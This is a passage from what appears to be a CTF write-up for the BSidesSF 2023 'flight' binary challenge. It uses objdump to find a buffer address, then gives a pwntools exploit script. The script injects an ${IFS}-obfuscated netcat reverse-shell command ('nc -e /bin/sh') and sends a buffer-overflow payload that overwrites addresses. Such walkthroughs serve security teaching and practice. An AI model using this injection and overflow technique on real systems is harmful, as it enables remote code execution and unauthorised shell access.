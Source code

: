 
Next, we can get the address of the `destination` variable using the `objdump` command.

```default
┌─[kali@kali]-[~/Documents/CTF/BSidesSF2023/ctf-2023/challenges/flight/distfiles]
└─━ [*]$ objdump -t flight

flight:     file format elf32-i386

SYMBOL TABLE:
00000000 l    df *ABS*  00000000              crt1.o
080481ac l     O .note.ABI-tag  00000020              __abi_tag
00000000 l    df *ABS*  00000000              main.c

...

08049420 g     F .fini  00000000              .hidden _fini
0804b4e0 g     O .bss   00000064              destination
0804b49c g       .data  00000000              __data_start

...

0804b4a4 g     O .data  00000000              .hidden __TMC_END__
08049000 g     F .init  00000000              .hidden _init


┌─[kali@kali]-[~/Documents/CTF/BSidesSF2023/ctf-2023/challenges/flight/distfiles]
└─━ [*]$
```

Finally, we can specify the command we want to run when asked for a destination and write our final payload.

```python
print(p.recvuntil("password"))

p.sendline("73f46e5e-7c23-11ed-a1eb-0242ac120002");

print(p.recvuntil("(Y/N)"))

p.sendline("Y")

print(p.recvuntil("go?"))

p.sendline("nc${IFS}-e${IFS}/bin/sh${IFS}127.0.0.1${IFS}4444")

print(p.recvuntil("(land/continue)"))


p.sendline(b"continue"+b"\x00"+b"A"*119+b"\x80\x90\x04\x08"+b"\xe0\xb4\x04\x08"*4)

p.interactive()
```

